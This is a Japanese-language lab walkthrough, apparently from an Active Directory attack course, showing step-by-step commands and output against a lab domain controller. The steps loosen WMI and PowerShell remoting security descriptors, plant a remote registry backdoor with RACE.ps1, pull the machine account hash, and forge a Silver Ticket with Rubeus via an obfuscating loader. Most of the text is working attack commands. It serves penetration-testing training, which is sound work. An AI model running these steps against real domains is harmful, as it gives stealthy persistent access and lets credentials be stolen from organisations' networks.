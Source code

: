 ## タスク
- dcorp-dcのセキュリティディスクリプタを変更し、管理者アクセスなしでPowerShellリモーティングとWMIを使用してアクセスする。
- 管理者アクセスを必要とせずにdcorp-dcからマシンアカウントハッシュを取得し、それを使用してWMIでコードを実行するSliver Ticket攻撃を実行する。

## 手順
1. マシンの管理者権限があれば、サービスのセキュリティ記述子を変更して、管理者権限がなくてもサービスにアクセスできるようにすることがある。
以下のコマンド(ドメイン管理者として実行)は、DC上のWMIのホストセキュリティ記述子を変更しstudentxがWMIにアクセスできるようにする。
```
C:\AD\Tools>C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat 
[snip] 
PS C:\AD\Tools> . C:\AD\Tools\RACE.ps1
PS C:\AD\Tools> Set-RemoteWMI -SamAccountName student828 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
  
VERBOSE: Existing ACL for namespace root\cimv2 is 
O:BAG:BAD:(A;CIID;CCDCLCSWRPWPRCWD;;;BA)(A;CIID;CCDCRP;;;NS)(A;CIID;CCDCRP;;;
 LS)(A;CIID;CCDCRP;;;AU) 
VERBOSE: Existing ACL for DCOM is 
O:BAG:BAD:(A;;CCDCLCSWRP;;;BA)(A;;CCDCSW;;;WD)(A;;CCDCLCSWRP;;;S-1-5-32
562)(A;;CCDCLCSWRP;;;LU)(A;;CCDCSW;;;AC)(A;;CCD 
CSW;;;S-1-15-3-1024-2405443489-874036122-4286035555-1823921565-1746547431
2453885448-3625952902-991631256) 
VERBOSE: New ACL for namespace root\cimv2 is 
O:BAG:BAD:(A;CIID;CCDCLCSWRPWPRCWD;;;BA)(A;CIID;CCDCRP;;;NS)(A;CIID;CCDCRP;;;
 LS)(A;CIID;CCDCRP;;;AU)(A;CI;CCDCLCSWRPWPR 
CWD;;;S-1-5-21-719815819-3726368948-3917688648-4101) 
VERBOSE:  
New ACL for DCOM 
O:BAG:BAD:(A;;CCDCLCSWRP;;;BA)(A;;CCDCSW;;;WD)(A;;CCDCLCSWRP;;;S-1-5-32
562)(A;;CCDCLCSWRP;;;LU)(A;;CCDCSW;;;AC)(A;;CCD 
CSW;;;S-1-15-3-1024-2405443489-874036122-4286035555-1823921565-1746547431
2453885448-3625952902-991631256)(A;;CCDCLCSWR 
P;;;S-1-5-21-719815819-3726368948-3917688648-4101)
```
---
2. これでDC上でstudentxとしてWMIクエリーを実行できるようになった。
```
PS C:\AD\Tools> gwmi -class win32_operatingsystem -ComputerName dcorp-dc
SystemDirectory : C:\Windows\system32 
Organization    : 
BuildNumber     : 20348 
RegisteredUser  : Windows User 
SerialNumber    : 00454-30000-00000-AA745 
Version         : 10.0.20348
```

- PowerShellのリモーティング設定にも同様の変更が可能。
まれにI/Oエラーが発生することがあるが無視して問題ない。
2020年8月のパッチ以降不安定になっている。
```
PS C:\AD\Tools> . C:\AD\Tools\RACE.ps1
PS C:\AD\Tools> Set-RemotePSRemoting -SamAccountName student828 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose
```

---
3. DA権限なしでDC上でPowerShellリモーティングを使ってコマンドを実行できる。
```
PS C:\AD\Tools> Invoke-Command -ScriptBlock{$env:username} -ComputerName dcorp-dc.dollarcorp.moneycorp.local

dcorp\student828
```
---
4. DAなしでマシン・アカウント・ハッシュを取得する。
それには、まずDCのパーミッションを変更する必要がある。

以下のコマンドをDAとして実行する。
```
PS C:\AD\Tools> . C:\AD\Tools\RACE.ps1
PS C:\AD\Tools> Add-RemoteRegBackdoor -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Trustee studentx -Verbose

VERBOSE: [dcorp-dc.dollarcorp.moneycorp.local : ] Using trustee username 
'studentx' 
VERBOSE: [dcorp-dc.dollarcorp.moneycorp.local] Remote registry is not 
running, attempting to start 
VERBOSE: [dcorp-dc.dollarcorp.moneycorp.local] Attaching to remote registry 
through StdRegProv 
VERBOSE: [dcorp-dc.dollarcorp.moneycorp.local : 
SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg] Backdooring 
started for key 
VERBOSE: [dcorp-dc.dollarcorp.moneycorp.local : 
SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg] Creating ACE with 
Access Mask of 983103 
(ALL_ACCESS) and AceFlags of 2 (CONTAINER_INHERIT_ACE) 
  
ComputerName                     BackdoorTrustee -
-----------                     --------------- 
dcorp-dc.dollarcorp.moneycorp.local studentx
```
---
5. これでハッシュをstudentxとして返すことができる。
```
PS C:\AD\Tools> . C:\AD\Tools\RACE.ps1
PS C:\AD\Tools> Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
[snip] 
ComputerName MachineAccountHash 
------------ ------------------ 
dcorp-dc     1be12164a06b817e834eb437dc8f581c 
```
---
6. マシンアカウントハッシュを使用してSilver Ticketsを作成することができる。
WMIクエリーを実行するために、マシンアカウントハッシュを使ってHOSTとRPCSSのシルバーチケットを作成する。
```
C:\AD\Tools>C:\AD\Tools\ArgSplit.bat 
[!] Argument Limit: 180 characters 
[+] Enter a string: silver 
C:\AD\Tools>echo %Pwn% 
silver 
C:\AD\Tools>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /service:host/dcorp-dc.dollarcorp.moneycorp.local /rc4:1be12164a06b817e834eb437dc8f581c /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt 
 
[snip]
```
---
7．以下のコマンドを実行する。
```
C:\Windows\system32> C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat 
[snip] 
PS C:\Windows\system32> gwmi -Class win32_operatingsystem -ComputerName dcorp-dc
  
SystemDirectory : C:\Windows\system32 
Organization    : 
BuildNumber     : 20348 
RegisteredUser  : Windows User 
SerialNumber    : 00454-30000-00000-AA745 
Version         : 10.0.20348 
```